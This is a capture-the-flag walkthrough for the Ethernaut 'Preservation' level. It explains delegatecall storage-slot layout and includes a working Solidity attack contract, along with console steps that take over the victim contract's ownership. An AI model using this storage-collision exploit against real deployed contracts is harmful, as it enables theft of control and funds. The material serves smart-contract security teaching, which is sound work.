

# Preservation

## Key

`delegatecall()` allows a contract to call a function in another (library) contract, but the state variables its changing are the ones of the callee contract (!). Used for libraries of reusable functionalities but a caveat is that influencing the state of the calling contract may be risky

### Layout of state variables in Storage

> Multiple, contiguous items that need less than 32 bytes are packed into a single storage slot if possible, according to the following rules:

    -The first item in a storage slot is stored lower-order aligned.
    -Value types use only as many bytes as are necessary to store them.
    -If a value type does not fit the remaining part of a storage slot, it is stored in the next storage slot.
    -Structs and array data always start a new slot and their items are packed tightly according to these rules.
    -Items following struct or array data always start a new storage slot.

https://docs.soliditylang.org/en/v0.8.11/internals/layout_in_storage.html#layout-of-state-variables-in-storage

### Ethereum storage organization via slots.

Address type are 20 bytes, so here they start a new slot each addr

```
uint160 -> 160bits -> 20bytes -> address in ethereum
                                0x4545c437 0xd127B29b F0BB080D eEe97f15 9AB827d8
uint256-> 256bits -> 32 bytes-> 0x61626364 0x61626364 61626364 61626364
                                  61626364 0x61626364 61626364 61626364
```

```
 -------------------------------
|address public timeZone1Library| SLOT[0]: 20/32 (overwritten)
|-------------------------------|
|address public timeZone2Library| SLOT[1]: 20/32
|-------------------------------|
|address public owner           | SLOT[2]: 32/32
|-------------------------------|
|uint storedTime                | SLOT[3]: 32/32
|-------------------------------|
bytes4 constant setTimeSignature -> constant. No storage slot.
```

The delegate call updates the state of the **first slot of memory** of the callee contract: meaning the `timeZone1Library address`. We can point it to a malicious contract address.

## Solution

1.Try on the Javascript VM the overwriting of the storage slots.

a) Create: `Preservation.sol`, `LibraryContract.sol` and the following `PreservationAttack.sol`:

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract PreservationAttack {
  // victim's state variables
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner;
  uint storedTime;

  // Keep signature of the fn, but perform attack.
  function setTime(uint _time) public {
    // attacker's address.
    owner = 0x4545c437d127B29bF0BB080DeEe97f159AB827d8;
  }
}
```

b) Call `setFirstTime()` from `Preservation.sol` with `PreservationAttack.sol` address as an argument.

```js
setFirstTime(0x358aa13c52544eccef6b0add0f801012adad5ee3);
```

c) Debug it in Remix to verify the correct overwriting of Slot[0] of memory corresponding to variable `address public timeZone1Library`



d) Call again `setFirstTime()` with any argument. In this case it will trigger the method `setTime()` of `PreservationAttack`. And as a collateral the owner of Preservation.sol contract will change to the attacker.

2.Perform similar steps but with the real victim's contract with Injected web3 option in Remix.
a) Get victim's contract address

```js
> contract.address
"0x77a768C52AEB6110f9BF94c00a794221137DDED2"
```

b) We can inspect the storage layout of victim's contract with:

```
> web3.eth.getStorageAt(contract.address, 0)
```

b) Verify contract owner

```js
> await contract.owner()
"0x97E982a15FbB1C28F6B8ee971BEc15C78b3d263F"
```

c) Deploy your attackers contract `PreservationAttack.sol`, and gather its address

```js
0x1b3bf5f8de188aceaff98888d246af6561d636f9;
```

d) Call `setTime()` for the first time with attacker's contract address as argument.

```js
> await contract.setFirstTime("0x1b3BF5F8dE188ACeAff98888D246Af6561d636f9")
```

e) And call `setTime()` a second time with any argument to trigger the attackers code that will change ownership in Preservation.sol.

```js
> await contract.setFirstTime("0x1234")

> await contract.owner()
"0x4545c437d127B29bF0BB080DeEe97f159AB827d8"
```

## Post-solution info

As the previous level, delegate mentions, the use of `delegatecall` to call libraries can be risky. This is particularly true for contract libraries that have their own state. This example demonstrates why the `library` keyword should be used for building libraries, as it prevents the libraries from storing and accessing state variables.
